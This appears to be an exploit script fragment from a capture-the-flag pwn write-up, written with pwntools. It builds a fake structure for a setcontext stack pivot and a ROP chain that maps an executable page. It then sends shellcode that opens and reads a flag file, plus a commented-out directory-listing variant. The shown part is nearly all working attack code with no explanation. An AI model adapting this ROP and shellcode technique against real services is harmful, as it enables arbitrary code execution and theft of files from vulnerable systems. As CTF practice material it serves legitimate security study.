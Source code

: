```python
rsi=address+0xc0
rdx=0x100
read=0x7ffff7e7f130-0x7ffff7d6e000+base
rsp=rsi
rbp = 153280+base
leave=371272+base
struct =p64(address)+p64(0)*3+p64(setcontext)
struct =struct.ljust(0x68,b'\\0')
struct+=p64(rdi)+p64(rsi)+p64(0)*2+p64(rdx)+p64(0)*2+p64(rsp)+p64(read)
add(0x1f8,p64(rdx2rdi)+struct)
rdx = 0x000000000011c371+base# rdx+r12
sys = 0x7ffff7e7f1e5-0x7ffff7d6e000+base
rax = 304464+base
rdi = 158578+base
rsi = 161065+base
rcx = 653346+base
rax_r10 = 0x000000000005e4b7+base
orw=[ rdi,0xdddd000,rsi,0x10000,rdx,7,0,rcx,0x22,0x7ffff7e89a20-0x7ffff7d6e000+base,#mmap(0xdddd000,0x1000,7,0x22,0,0)
rax,0,rdi,0,rsi,0xdddd000,rdx,0x1000,0,sys,0xdddd000
]
rop=flat(orw)
p.send(rop.ljust(0x100,b'\\0'))

#context.log_level='debug'
sc='''
mov rax,1
mov rdi,1
mov rsi,0xdddd300
mov rdx,0x10000
syscall
'''
fk='''
mov rdi,rax
mov rax,0
mov rsi,0xdddd300
mov rdx,100
syscall
mov rax,1
mov rdi,rax
syscall
'''
poc = asm(shellcraft.open(b"/home/pwn/flag-asdasdasdasd"))+asm(fk)
#poc = asm(shellcraft.open(b'/home/pwn/'))+asm(shellcraft.getdents64(3, 0xdddd000 + 0x300, 0x600))+asm(sc)
p.send(poc)

p.interactive()
```

# Summary
